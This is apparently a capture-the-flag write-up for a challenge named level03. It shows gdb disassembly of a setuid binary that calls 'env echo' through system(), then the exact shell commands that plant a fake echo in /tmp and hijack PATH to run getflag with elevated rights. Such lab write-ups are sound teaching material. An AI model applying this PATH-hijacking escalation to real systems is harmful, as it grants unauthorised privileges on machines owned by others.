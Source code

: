 ## level03

There is an executable in the home folder. `./level03`. Executing it outputs : `Exploit me`. We will try to reverse engineer it.

A recurring and important theme throughout the exercices is that files given often have the setuid bit set.
This means that these files, when executed, will run with the permissions of the file's owner rather than the permissions of 
the user initiating the execution. 

Noted here as the 's' instead of the usual 'x', it means that the setuid 
(for the owner's permission) or setgid (for the group's permission) bit is set and the execute permission is also set.

![Alt text](image.png)

To understand what the executable does, we are going to use gdb.

```
$ gdb ./level03
(gdb) break main
(gdb) run
(gdb) disassemble
```

From the disassembled code, an important snippet appears:
```
...
   0x080484f7 <+83>:    movl   $0x80485e0,(%esp)
   0x080484fe <+90>:    call   0x80483b0 <system@plt>
   0x08048503 <+95>:    leave  
   0x08048504 <+96>:    ret
```

Investigating further into what the address 0x80485e0 holds:
```
(gdb) x/s 0x80485e0
0x80485e0:       "/usr/bin/env echo Exploit me"
```
It returns: "/usr/bin/env echo Exploit me".

This indicates that the executable runs the command echo Exploit me using the env command.

Based on the above observation, there's a vulnerability. 
We can exploit the behavior by making the env command point to a malicious echo executable, 
allowing us to execute arbitrary code.

To exploit this:

Create a fake echo script in the /tmp directory and modify the PATH environment variable to
prioritize our malicious echo which will actually execute getflag with the rights from flag03, and then run level03:

```shell
echo '#!/bin/sh' > /tmp/echo
echo 'getflag' >> /tmp/echo
chmod +x /tmp/echo
PATH="/tmp:$PATH" ./level03
```